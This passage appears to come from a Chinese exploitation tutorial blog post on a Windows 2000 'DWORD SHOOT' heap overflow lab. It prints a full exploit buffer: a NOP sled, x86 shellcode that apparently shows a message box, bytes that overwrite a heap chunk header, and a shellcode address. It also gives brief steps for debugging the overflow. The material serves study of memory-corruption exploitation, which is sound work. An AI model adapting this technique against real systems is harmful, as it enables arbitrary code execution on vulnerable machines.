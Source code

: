 这里有问题的可以看另一篇文:
[DWORD SHOOT堆溢出利用](http://www.wooy0ung.me/exploit/2017/10/01/windows-2000-dwordshoot/)

构造junk+shellcode填充200 byte的数据区
```
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90"
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7"
"\x16\x01\x1a\x00\x00\x10\x00\x00"		# 按尾块的首部填充
"\x88\x06\x36\x00"			# shellcode起始
"\x90\x90\x90\x90"			# 暂时填充无效数据, 调试确定
```

将memcpy长度改为0x200, 确认没有忽略任何异常后, 附加调试
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x003-004.png)
